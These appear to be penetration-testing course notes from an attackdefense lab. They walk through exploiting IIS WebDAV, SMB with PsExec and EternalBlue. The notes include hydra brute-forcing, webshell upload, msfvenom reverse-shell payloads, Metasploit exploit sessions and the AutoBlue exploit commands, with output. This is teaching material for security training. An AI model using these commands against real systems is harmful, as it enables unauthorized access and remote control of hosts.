




# Section 3 course 1: Host & Network Penetration Testing: System/Host Based Attacks

### Table of Contents

- [Host Based Attacks](#Host Based Attacks)
- [Windows Vulnerabilities](#Windows Vulnerabilities)
- [Exploiting Windows Vulnerabilities](#Exploiting Windows Vulnerabilities)
  - Exploiting Microsoft IIS WebDAV
  - Exploiting WebDAV With Metasploit
  - Exploiting SMB With PsExec    
  - Exploiting Windows MS17-010 SMB Vulnerability (EternalBlue)    

- [Windows Privilege Escalation](#Windows Privilege Escalation)
- [Windows File System Vulnerabilities](#Windows File System Vulnerabilities)
- [Windows Credential Dumping](#Windows Credential Dumping)
- [Linux Vulnerabilities](#Linux Vulnerabilities)
- [Exploiting Linux Vulnerabilities](#Exploiting Linux Vulnerabilities)
- [Linux Privilege Escalation](#Linux Privilege Escalation)
- [Linux Credential Dumping](#Linux Credential Dumping)

<br />

---

### Host Based Attacks

**what is System/Host Based Attacks ?**

attacks that are targeted towards a specific system or host running specific OS for example linux or windows. it's focused on exploiting misconfiguration or inherent vulnerabilities on the target OS

<br />

### Windows Vulnerabilities

Microsoft Windows has various OS versions and releases which makes the threat surface fragmented in terms of vulnerabilities. For example, vulnerabilities that exist in Windows 7 are not present in Windows 10.


Regardless of the various versions and releases, all Windows OS’s share a likeness given the development model and philosophy:

+ Windows OS’s have been developed in the C programming language, making them vulnerable to buffer overflows, arbitrary code execution etc.
+ By default, Windows is not configured to run securely and require a proactive implementation of security practices in order to configure Windows to run securely.
+ Newly discovered vulnerabilities are not immediately patched by Microsoft and given the fragmented nature of Windows, many systems are left unpatched.

The frequent releases of new versions of Windows is also a contributing factor to exploitation, as many companies take a substantial length of time to upgrade their systems to the latest version of Windows and opt to use older versions that may be affected by an increasing number of vulnerabilities.

<br />

### Exploiting Windows Vulnerabilities

- Microsoft Windows has various native services and protocols that can be configured to run on a host. 
- These services provide an attacker with an access vector that they can utilize to gain access to a target host. 
- Having a good understanding of what these services are, how they work and their potential vulnerabilities is a vitally important skill to have as a penetration tester.



<br />

---

### Exploiting Windows Vulnerabilities

#### 1- Exploiting WebDAV running on Microsoft IIS 

**Microsoft IIS**

- IIS (Internet Information Services) is a proprietary extensible web server software developed by Microsoft for use with the Windows NT family.

- It can be used to host websites/web apps and provides administrators with a robust GUI for managing websites.

- IIS can be used to host both static and dynamic web pages developed in ASP.NET and PHP.

- Typically configured to run on ports 80/443.

- Supported executable file extensions:

  + .asp

  + .aspx

  + .config

  + .php

<br />

**WebDAV**

- WebDAV (Web-based Distributed Authoring and Versioning) is a set of extensions to the HTTP protocol which allow users to collaboratively edit
  and manage files on remote web servers.
- WebDAV essentially enables a web server to function as a file server for collaborative authoring.
- WebDAV runs on top Microsoft IIS on ports 80/443.
- In order to connect to a WebDAV server, you will need to provide legitimate credentials. This is because WebDAV implements authentication in the form of a username and password.

<br />

**WebDAV Exploitation**

- The first step of the exploitation process will involve identifying whether WebDAV has been configured to run on the IIS web server.
- We can perform a brute-force attack on the WebDAV server in order to identify legitimate credentials that we can use for authentication.
- After obtaining legitimate credentials, we can authenticate with the WebDAV server and upload a malicious `.asp` payload that can be used to execute arbitrary commands or obtain a reverse shell on the target

<br />

**Tools**

- **davtest** - Used to scan, authenticate and exploit a WebDAV server.
- **cadaver** - cadaver supports file upload, download, on-screen display, inplaceediting, namespace operations (move/copy), collection creation and deletion, property manipulation, and resource locking on WebDAV servers.

<br />

**nmap**

```bash
root@attackdefense:~# nmap 10.4.22.42 -sV -p80 -sC
Starting Nmap 7.91 ( https://nmap.org ) at 2024-01-13 20:00 IST
Nmap scan report for 10.4.22.42
Host is up (0.0084s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    Microsoft IIS httpd 10.0
| http-methods: 
|_  Potentially risky methods: TRACE COPY PROPFIND LOCK UNLOCK PROPPATCH MKCOL PUT DELETE MOVE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: Did not follow redirect to /Default.aspx
| http-webdav-scan: 
|   Public Options: OPTIONS, TRACE, GET, HEAD, POST, PROPFIND, PROPPATCH, MKCOL, PUT, DELETE, COPY, MOVE, LOCK, UNLOCK
|   WebDAV type: Unknown
|   Server Date: Sat, 13 Jan 2024 14:30:29 GMT
|   Allowed Methods: OPTIONS, TRACE, GET, HEAD, POST, COPY, PROPFIND, LOCK, UNLOCK
|_  Server Type: Microsoft-IIS/10.0
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows


root@attackdefense:~# nmap 10.4.22.42 -sV -p80 -sC --script=http-enum
Starting Nmap 7.91 ( https://nmap.org ) at 2024-01-13 20:02 IST
Nmap scan report for 10.4.22.42
Host is up (0.0088s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    Microsoft IIS httpd 10.0
| http-enum: 
|_  /webdav/: Potentially interesting folder (401 Unauthorized)
|_http-server-header: Microsoft-IIS/10.0
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

`webdav`  directory is exist

From the output, it is clear that the WebDAV extension is enabled and the server is Microsoft-IIS/10.0. Also, you can see the `PUT` method is allowed, this means you can upload the file and with the `GET` method, you can execute it. This is interesting as you can upload and test whether the shell is working on not.

<br />

**Webdav credential bruteforce using hydra**

```bash
root@attackdefense:~# hydra -L users.txt -P password_list.txt 10.4.22.42 http-get /webdav/
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-01-13 20:05:41
[DATA] max 1 task per 1 server, overall 1 task, 1 login try (l:1/p:1), ~1 try per task
[DATA] attacking http-get://10.4.22.42:80/webdav/
[80][http-get] host: 10.4.22.42   login: bob   password: password_123321
1 of 1 target successfully completed, 1 valid password found
```

<br />

**trying to upload and execute files with different extensions using `davtest`**

```bash
root@attackdefense:~# davtest -auth bob:password_123321 -url http://10.4.22.42/webdav/
********************************************************
 Testing DAV connection
OPEN		SUCCEED:		http://10.4.22.42/webdav
********************************************************
NOTE	Random string for this session: 26C0J8
********************************************************
 Creating directory
MKCOL		SUCCEED:		Created http://10.4.22.42/webdav/DavTestDir_26C0J8
********************************************************
 Sending test files
PUT	cfm		SUCCEED:	http://10.4.22.42/webdav/DavTestDir_26C0J8/davtest_26C0J8.cfm
PUT	shtml	SUCCEED:	http://10.4.22.42/webdav/DavTestDir_26C0J8/davtest_26C0J8.shtml
PUT	cgi		SUCCEED:	http://10.4.22.42/webdav/DavTestDir_26C0J8/davtest_26C0J8.cgi
PUT	jhtml	SUCCEED:	http://10.4.22.42/webdav/DavTestDir_26C0J8/davtest_26C0J8.jhtml
PUT	pl		SUCCEED:	http://10.4.22.42/webdav/DavTestDir_26C0J8/davtest_26C0J8.pl
PUT	asp		SUCCEED:	http://10.4.22.42/webdav/DavTestDir_26C0J8/davtest_26C0J8.asp
PUT	jsp		SUCCEED:	http://10.4.22.42/webdav/DavTestDir_26C0J8/davtest_26C0J8.jsp
PUT	txt		SUCCEED:	http://10.4.22.42/webdav/DavTestDir_26C0J8/davtest_26C0J8.txt
PUT	html	SUCCEED:	http://10.4.22.42/webdav/DavTestDir_26C0J8/davtest_26C0J8.html
PUT	php		SUCCEED:	http://10.4.22.42/webdav/DavTestDir_26C0J8/davtest_26C0J8.php
PUT	aspx	SUCCEED:	http://10.4.22.42/webdav/DavTestDir_26C0J8/davtest_26C0J8.aspx
********************************************************
 Checking for test file execution
EXEC	cfm		FAIL
EXEC	shtml	FAIL
EXEC	cgi		FAIL
EXEC	jhtml	FAIL
EXEC	pl		FAIL
EXEC	asp		SUCCEED:	http://10.4.22.42/webdav/DavTestDir_26C0J8/davtest_26C0J8.asp
EXEC	jsp		FAIL
EXEC	txt		SUCCEED:	http://10.4.22.42/webdav/DavTestDir_26C0J8/davtest_26C0J8.txt
EXEC	html	SUCCEED:	http://10.4.22.42/webdav/DavTestDir_26C0J8/davtest_26C0J8.html
EXEC	php		FAIL
EXEC	aspx	FAIL

********************************************************
/usr/bin/davtest Summary:
Created: http://10.4.22.42/webdav/DavTestDir_26C0J8
PUT File: http://10.4.22.42/webdav/DavTestDir_26C0J8/davtest_26C0J8.cfm
PUT File: http://10.4.22.42/webdav/DavTestDir_26C0J8/davtest_26C0J8.shtml
PUT File: http://10.4.22.42/webdav/DavTestDir_26C0J8/davtest_26C0J8.cgi
PUT File: http://10.4.22.42/webdav/DavTestDir_26C0J8/davtest_26C0J8.jhtml
PUT File: http://10.4.22.42/webdav/DavTestDir_26C0J8/davtest_26C0J8.pl
PUT File: http://10.4.22.42/webdav/DavTestDir_26C0J8/davtest_26C0J8.asp
PUT File: http://10.4.22.42/webdav/DavTestDir_26C0J8/davtest_26C0J8.jsp
PUT File: http://10.4.22.42/webdav/DavTestDir_26C0J8/davtest_26C0J8.txt
PUT File: http://10.4.22.42/webdav/DavTestDir_26C0J8/davtest_26C0J8.html
PUT File: http://10.4.22.42/webdav/DavTestDir_26C0J8/davtest_26C0J8.php
PUT File: http://10.4.22.42/webdav/DavTestDir_26C0J8/davtest_26C0J8.aspx
Executes: http://10.4.22.42/webdav/DavTestDir_26C0J8/davtest_26C0J8.asp
Executes: http://10.4.22.42/webdav/DavTestDir_26C0J8/davtest_26C0J8.txt
Executes: http://10.4.22.42/webdav/DavTestDir_26C0J8/davtest_26C0J8.html
```

All files with different extensions uploaded successfully but only files with `asp`, `html` and `txt` extensions were executed successfully, so if we need to perform command execution or get reverse shell we need `asp` shell

<br />

**Upload asp webshell using `cadaver`**

```bash
root@attackdefense:~# cadaver http://10.4.22.42/webdav/
Authentication required for 10.4.22.42 on server `10.4.22.42':
Username: bob
Password: 
dav:/webdav/> ls
Listing collection `/webdav/': succeeded.
Coll:   DavTestDir_26C0J8                      0  Jan 13 20:09
        AttackDefense.txt                     13  Jan  2  2021
        web.config                           168  Jan  2  2021
        
dav:/webdav/> put /usr/share/webshells/asp/webshell.asp 
Uploading /usr/share/webshells/asp/webshell.asp to `/webdav/webshell.asp':
Progress: [=============================>] 100.0% of 1362 bytes succeeded.

```



<br />

<br />




<br />

---

#### **Exploiting WebDAV With Metasploit    **

**Metasploit  method1: using  `exploit/windows/iis/iis_webdav_upload_asp`**

```bash
msf6 > use exploit/windows/iis/iis_webdav_upload_asp
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
msf6 exploit(windows/iis/iis_webdav_upload_asp) > options

Module options (exploit/windows/iis/iis_webdav_upload_asp):

   Name          Current Setting        Required  Description
   ----          ---------------        --------  -----------
   HttpPassword                         no        The HTTP password to specify for authentication
   HttpUsername                         no        The HTTP username to specify for authentication
   METHOD        move                   yes       Move or copy the file on the remote system from .txt -> .asp (Accepted: move, copy)
   PATH          /metasploit%RAND%.asp  yes       The path to attempt to upload
   Proxies                              no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                               yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT         80                     yes       The target port (TCP)
   SSL           false                  no        Negotiate SSL/TLS for outgoing connections
   VHOST                                no        HTTP server virtual host


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     10.10.80.2       yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic


msf6 exploit(windows/iis/iis_webdav_upload_asp) > set HttpUsername bob
HttpUsername => bob
msf6 exploit(windows/iis/iis_webdav_upload_asp) > set HttpPassword password_123321
HttpPassword => password_123321
msf6 exploit(windows/iis/iis_webdav_upload_asp) > set RHOSTS 10.4.23.46
RHOSTS => 10.4.23.46
msf6 exploit(windows/iis/iis_webdav_upload_asp) > run

[*] Started reverse TCP handler on 10.10.80.2:4444 
[*] Checking /metasploit219740735.asp
[*] Uploading 612521 bytes to /metasploit219740735.txt...
[-] Upload failed on /metasploit219740735.txt [401 Unauthorized]
[*] Exploit completed, but no session was created.
msf6 exploit(windows/iis/iis_webdav_upload_asp) > set PATH /webdav/metasploit%RAND%.asp
PATH => /webdav/metasploit%RAND%.asp
msf6 exploit(windows/iis/iis_webdav_upload_asp) > run

[*] Started reverse TCP handler on 10.10.80.2:4444 
[*] Checking /webdav/metasploit162025281.asp
[*] Uploading 609318 bytes to /webdav/metasploit162025281.txt...
[*] Moving /webdav/metasploit162025281.txt to /webdav/metasploit162025281.asp...
[*] Executing /webdav/metasploit162025281.asp...
[*] Deleting /webdav/metasploit162025281.asp (this doesn't always work)...
[*] Sending stage (175174 bytes) to 10.4.23.46
[*] Meterpreter session 1 opened (10.10.80.2:4444 -> 10.4.23.46:49800) at 2024-01-13 20:50:25 +0530

meterpreter > 

```


<br />

**Metasploit  method2: using  `msfvenom`**

```bash
root@attackdefense:~# msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.80.2 LPORT=1234 -f asp > asp_shell.asp
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 354 bytes
Final size of asp file: 38281 bytes
```

<br />

**setup the listener**

```bash
msf6 exploit(multi/handler) > options 

Module options (exploit/multi/handler):

   Name  Current Setting  Required  Description
   ----  ---------------  --------  -----------


Payload options (generic/shell_reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  10.10.80.2       yes       The listen address (an interface may be s
                                     pecified)
   LPORT  1234             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Wildcard Target


msf6 exploit(multi/handler) > set PAYLOAD windows/meterpreter/reverse_tcp
PAYLOAD => windows/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set LHOST 10.10.80.2
LHOST => 10.10.80.2
msf6 exploit(multi/handler) > set LPORT 1234
LPORT => 1234
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.10.80.2:1234 
[*] Sending stage (175174 bytes) to 10.4.23.46
[*] Meterpreter session 63 opened (10.10.80.2:1234 -> 10.4.23.46:49921) at 2024-01-13 21:07:19 +0530
meterpreter > 

```




<br />

---

### SMB

- SMB (Server Message Block) is a network file sharing protocol that is used to facilitate the sharing of files and peripherals (printers and serial ports) between computers on a local network (LAN).
- SMB uses port 445 (TCP). However, originally, SMB ran on top of NetBIOS using port 139.
- SAMBA is the open source Linux implementation of SMB, and allows Windows systems to access Linux shares and devices.
- The SMB protocol utilizes two levels of authentication, namely:
  - User authentication - Users must provide a username and password in order to authenticate with the SMB server in order to access a share.
  - Share authentication - Users must provide a password in order to access restricted share.

#### PsExec

- PsExec is a lightweight telnet-replacement developed by Microsoft that allows you execute processes on remote windows systems using any user’s
  credentials.
- PsExec authentication is performed via SMB.
- We can use the PsExec utility to authenticate with the target system legitimately and run arbitrary commands or launch a remote command
  prompt.
- It is very similar to RDP, however, instead of controlling the remote system via GUI, commands are sent via CMD.

#### Exploiting SMB With PsExec    

In order to utilize PsExec to gain access to a Windows target, we will need to identify legitimate user accounts and their respective passwords or password hashes. This can be done by leveraging various tools and techniques, however, the most common technique will involve performing an SMB login brute-force attack. We can narrow down our brute-force attack to only include common Windows user
accounts like: Administrator.

After we have obtained a legitimate user account and password, we can use the credentials to authenticate with the target system via PsExec and execute arbitrary system commands or obtain a reverse shell.

<br />

**Gather shares with smbmap**

```bash
root@attackdefense:~# smbmap -H 10.4.19.178 -u demo -p victoria
[+] Finding open SMB ports....
[+] User SMB session established on 10.4.19.178...
[+] IP: 10.4.19.178:445	Name: 10.4.19.178                                       
	Disk                                                  	Permissions	Comment
	----                                                  	-----------	-------
	admin                                             	NO ACCESS	
	ADMIN$                                            	NO ACCESS	Remote Admin
	C                                                 	READ, WRITE	
	C$                                                	NO ACCESS	Default share
	IPC$                                              	READ ONLY	Remote IPC
	public                                            	READ, WRITE	

root@attackdefense:~# smbmap -H 10.4.19.178 -u administrator -p qwertyuiop
[+] Finding open SMB ports....
[+] User SMB session established on 10.4.19.178...
[+] IP: 10.4.19.178:445	Name: 10.4.19.178                                       
	Disk                                                  	Permissions	Comment
	----                                                  	-----------	-------
	admin                                             	READ, WRITE	
	ADMIN$                                            	READ, WRITE	Remote Admin
	C                                                 	READ, WRITE	
	C$                                                	READ, WRITE	Default share
	IPC$                                              	READ ONLY	Remote IPC
	public                                            	READ, WRITE	

```

user `demo` does not have access to `	ADMIN$   ` while `administrator` has

<br />

```bash
root@attackdefense:~# psexec.py administrator@10.4.19.178 cmd.exe
Impacket v0.9.22.dev1+20200929.152157.fe642b24 - Copyright 2020 SecureAuth Corporation

Password:
[*] Requesting shares on 10.4.19.178.....
[*] Found writable share admin
[*] Uploading file UTFKeDZS.exe
[*] Opening SVCManager on 10.4.19.178.....
[*] Creating service bUwC on 10.4.19.178.....
[*] Starting service bUwC.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
nt authority\system


================================================================================================================================

root@attackdefense:~# psexec.py administrator@10.4.19.178 ipconfig
Impacket v0.9.22.dev1+20200929.152157.fe642b24 - Copyright 2020 SecureAuth Corporation

Password:
[*] Requesting shares on 10.4.19.178.....
[*] Found writable share admin
[*] Uploading file htKsTxhZ.exe
[*] Opening SVCManager on 10.4.19.178.....
[*] Creating service WeAE on 10.4.19.178.....
[*] Starting service WeAE.....
[!] Press help for extra shell commands

Windows IP Configuration


Ethernet adapter Ethernet 3:

   Connection-specific DNS Suffix  . : ec2.internal
   Link-local IPv6 Address . . . . . : fe80::55c2:45f5:a88b:6213%8
   IPv4 Address. . . . . . . . . . . : 10.4.19.178
   Subnet Mask . . . . . . . . . . . : 255.255.240.0
   Default Gateway . . . . . . . . . : 10.4.16.1

Tunnel adapter isatap.ec2.internal:

   Media State . . . . . . . . . . . : Media disconnected
   Connection-specific DNS Suffix  . : ec2.internal

Tunnel adapter Local Area Connection* 3:

   Connection-specific DNS Suffix  . : 
   IPv6 Address. . . . . . . . . . . : 2001:0:34f1:8072:2467:b54:f5fb:ec4d
   Link-local IPv6 Address . . . . . : fe80::2467:b54:f5fb:ec4d%7
   Default Gateway . . . . . . . . . : ::
[*] Process ipconfig finished with ErrorCode: 0, ReturnCode: 0
[*] Opening SVCManager on 10.4.19.178.....
[*] Stopping service WeAE.....
[*] Removing service WeAE.....
[*] Removing file htKsTxhZ.exe.....

================================================================================================================================
if the user does not have wriable share

root@attackdefense:~# psexec.py demo@10.4.19.178 cmd.exe
Impacket v0.9.22.dev1+20200929.152157.fe642b24 - Copyright 2020 SecureAuth Corporation

Password:
[*] Requesting shares on 10.4.19.178.....
[-] share 'admin' is not writable.
[-] share 'ADMIN$' is not writable.
[-] share 'C' is not writable.
[-] share 'C$' is not writable.
[*] Found writable share public
[*] Uploading file RxmlsLpn.exe
[*] Opening SVCManager on 10.4.19.178.....
[-] Error opening SVCManager on 10.4.19.178.....
[-] Error performing the installation, cleaning up: Unable to open SVCManager

```

utilizing smb credentials to login remotely with PSexec

<br />

**exploit smb psexec using metasploit `windows/smb/psexec`**

```bash
msf5 auxiliary(scanner/smb/smb_login) > use exploit/windows/smb/psexec
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
msf5 exploit(windows/smb/psexec) > options

Module options (exploit/windows/smb/psexec):

   Name                  Current Setting  Required  Description
   ----                  ---------------  --------  -----------
   RHOSTS                                 yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT                 445              yes       The SMB service port (TCP)
   SERVICE_DESCRIPTION                    no        Service description to to be used on target for pretty listing
   SERVICE_DISPLAY_NAME                   no        The service display name
   SERVICE_NAME                           no        The service name
   SHARE                 ADMIN$           yes       The share to connect to, can be an admin share (ADMIN$,C$,...) or a normal read/write folder share
   SMBDomain             .                no        The Windows domain to use for authentication
   SMBPass                                no        The password for the specified username
   SMBUser                                no        The username to authenticate as


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     10.10.22.2       yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic


msf5 exploit(windows/smb/psexec) > set RHOSTS 10.4.19.178
RHOSTS => 10.4.19.178
msf5 exploit(windows/smb/psexec) > set SMBUSER administrator
SMBUSER => administrator
msf5 exploit(windows/smb/psexec) > set SMBPASS qwertyuiop
SMBPASS => qwertyuiop
msf5 exploit(windows/smb/psexec) > run

[*] Started reverse TCP handler on 10.10.22.2:4444 
[*] 10.4.19.178:445 - Connecting to the server...
[*] 10.4.19.178:445 - Authenticating to 10.4.19.178:445 as user 'administrator'...
[*] 10.4.19.178:445 - Selecting PowerShell target
[*] 10.4.19.178:445 - Executing the payload...
[+] 10.4.19.178:445 - Service start timed out, OK if running a command or non-service executable...
[*] Sending stage (176195 bytes) to 10.4.19.178
[*] Meterpreter session 1 opened (10.10.22.2:4444 -> 10.4.19.178:49818) at 2024-01-14 15:56:10 +0530

meterpreter > 

```

<br />


#### Exploiting Windows MS17-010 SMB Vulnerability (EternalBlue)    

- EternalBlue (MS17-010/CVE-2017-0144) is the name given to a collection of Windows vulnerabilities and exploits that allow attackers to remotely execute arbitrary code and gain access to a Windows system and consequently the network that the target system is a part of.
- The EternalBlue exploit was developed by the NSA (National Security Agency) to take advantage of the MS17-010 vulnerability and was leaked to the public by a hacker group called the Shadow Brokers in 2017.
- The EternalBlue exploit takes advantage of a vulnerability in the Windows SMBv1 protocol that allows attackers to send specially crafted packets that consequently facilitate the execution of arbitrary commands.
- The EternalBlue exploit was used in the WannaCry ransomware attack on June 27, 2017 to exploit other Windows systems across networks with the objective of spreading the ransomware to as many systems as possible.
- This vulnerability affects multiple versions of Windows:
  ○ Windows Vista
  ○ Windows 7
  ○ Windows Server 2008
  ○ Windows 8.1
  ○ Windows Server 2012
  ○ Windows 10
  ○ Windows Server 2016
- Microsoft released a patch for the vulnerability in March, 2017, however, many users and companies have still not yet patched their systems.
- The EternalBlue exploit has a MSF auxiliary module that can be used to check if a target system if vulnerable to the exploit and also has an exploit module that can be used to exploit the vulnerability on unpatched systems.
- The EternalBlue exploit module can be used to exploit vulnerable Windows systems and consequently provide us with a privileged meterpreter session on the target system.
- In addition to MSF modules, we can also manually exploit the vulnerability by utilizing publicly available exploit code.
  - AutoBlue-MS17-010: https://github.com/3ndG4me/AutoBlue-MS17-010

<br />

**detect MS17-010 SMB (EternalBlue) with nmap    **

```bash
root@attackdefense:~# nmap 10.0.0.2 -sV -p445 --script=smb-vuln-ms17-010
```

<br />

**exploite MS17-010 SMB (EternalBlue) with [3ndG4me/AutoBlue-MS17-010](https://github.com/3ndG4me/AutoBlue-MS17-010) **

```bash
root@attackdefense:~# git clone https://github.com/3ndG4me/AutoBlue-MS17-010.git
root@attackdefense:~# cd AutoBlue-MS17-010/shellcode
root@attackdefense:~# chmod +x shell_prep.sh
root@attackdefense:~# ./ shell_prep.sh
root@attackdefense:~# LHOST
root@attackdefense:~# 1234 => 	LPORT
root@attackdefense:~# 1 => 		cmd shell
root@attackdefense:~# 1 => 		stageless payload


set netcat listener
root@attackdefense:~# nc -nvlp 1234 
root@attackdefense:~# LPORT


root@attackdefense:~# chmod +x eternalblue_exploit7.py  (it debends on the victim's windows version)
root@attackdefense:~# python eternalblue_exploit7.py LHOST(ip) shellcode/sc_64.bin
```

<br />

**detect MS17-010 SMB (EternalBlue) with metasploit **

```bash
msf5 > use auxiliary/scanner/smb/smb_ms17_010
```


<br />

**exploite MS17-010 SMB (EternalBlue) with metasploit **

```bash
msf5 > exploit/windows/smb/ms17_010_eternalblue
```

<br />

**References**

- https://tbhaxor.com/exploit-webdav-using-metasploit/